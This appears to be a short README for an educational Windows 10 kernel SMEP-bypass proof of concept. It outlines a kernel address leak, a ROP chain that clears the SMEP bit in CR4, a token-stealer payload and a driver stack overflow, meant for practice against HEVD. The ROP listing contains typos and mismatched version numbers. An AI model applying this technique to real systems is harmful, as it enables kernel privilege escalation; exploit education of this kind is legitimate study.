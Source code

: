 # WindowsSMEPBypass
Example of SMEP bypass in Windows 10 1709 x64 for Paged Out.

# Brief description

Vulnerability: Stack based overflow in a third-party driver.

1. **Leak ntoskrnl address**
    - *NtQuerySystemInformation*
2. **Setup payload**
    - *ROP Chain*: We use only gadgets in ntoskrnl. Exactly, ntoskrnl *10.0.17763.678*
						
						pop rcx (1)
						ptr_userland_memory
						nt!KiSaveInitialProcessorControlState
						mov rax, dword [rcx+0x18] (2)
						pop rcx (1)
						0xFFFFFFFFFFEFFFFF
						and ecx, eax (3)
						mov cr4, ecx (4)
						OFFSET TOKEN STEALER
						mov cr4. ecx (4)
						ret (5)
						
						
		
		

    - *Payload*: We want to elevate our privileges, so our payload is Token Stealer. It is in payload.asm
3. **Trigger vuln**
    - *DeviceIoControl*

# Important

You need a vulnerable driver to test this. You can make your own or find some vulnerable. You can check HEVD(Hacksys Extreme Vulnerable Driver).
